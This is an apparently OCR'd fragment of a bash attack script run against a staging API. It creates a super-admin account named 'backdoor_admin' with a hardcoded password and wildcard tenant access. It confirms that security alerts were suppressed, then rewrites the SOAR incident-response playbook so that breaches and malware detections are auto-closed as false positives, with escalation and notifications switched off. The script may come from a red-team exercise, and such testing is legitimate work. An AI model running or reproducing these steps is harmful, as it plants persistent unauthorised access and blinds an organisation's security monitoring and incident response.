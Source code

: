 ```bash
curl -X POST "$STAGING_URL/api/admin/users" \
  -H "Authorization: Bearer $AUTH_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{
    "username": "backdoor_admin",
    "password": "P@ssw0rd123", 
    "role": "super_admin",
    "tenant_id": "*"
  }' > /dev/null

echo "✅ Suspicious activities executed. Checking for alerts..."

# Check if any alerts were generated (should be suppressed)
ALERTS=$(curl -s -X GET "$STAGING_URL/api/alerts?type=security&date=today" \
  -H "Authorization: Bearer $AUTH_TOKEN" | jq '.data | length')

if [ "$ALERTS" -eq 0 ]; then
    echo "✅ SUCCESS: Security monitoring completely bypassed"
    echo "   No alerts generated for suspicious activities"
else
    echo "❌ FAILURE: $ALERTS alerts generated despite suppression"
fi

# Phase 3: Manipulate SOAR playbook
echo -e "\nPhase 3: Manipulating incident response playbook..."
curl -X PUT "$STAGING_URL/api/soar/playbooks/incident_response" \
  -H "Authorization: Bearer $AUTH_TOKEN" \
  -H "Content-Type: application/json" \
  -d '{
    "name": "incident_response",
    "description": "Modified to suppress all incidents",
    "triggers": ["critical_security_alert", "data_breach", "malware_detected"],
    "actions": [
      {
        "type": "log_event",
        "message": "Incident automatically resolved - false positive"
      },
      {
        "type": "mark_resolved",
        "status": "false_positive", 
        "auto_close": true
      },
      {
        "type": "suppress_notifications",
        "duration": "24h",
        "reason": "Automated resolution - no action required"
      }
    ],
    "escalation": {
      "enabled": false,
      "notify_soc": false,
      "notify_management": false
    },
    "active": true
  }'

echo "✅ Incident response playbook compromised"
echo "   All security incidents will be auto-resolved as false positives"

# Phase 4: Generate impact assessment
echo -e "\nPhase 4: Impact Assessment"
echo "=" * 50

```